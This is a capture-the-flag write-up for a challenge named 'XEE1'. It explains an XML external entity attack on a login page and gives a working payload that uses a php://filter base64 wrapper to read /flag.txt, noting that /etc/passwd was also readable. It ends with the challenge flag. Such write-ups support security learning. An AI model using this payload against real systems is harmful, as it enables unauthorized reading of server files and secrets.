





# XEE1
> flag in flag.txt

## About the Challenge
We were given a website that contains a login page



And if we check the HTTP request and response when entering the username and password




## How to Solve?
At first, Im using a `file` protocol to read `/flag.txt` file



But the output was `You can't read the flag`. Im very confused because my payload was working perfectly if I want to read another file (ex: /etc/passwd)



So I decided to use PHP wrapper to encoded the output with `base64` encoding. Here is the final payload

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "php://filter/read=convert.base64-encode/resource=/flag.txt"> ]>
<user>
    <username>&ent;</username>
    <password>test</password>
</user>
```



```
dead{n1ce_br0_XE3_3z_h3h3}
```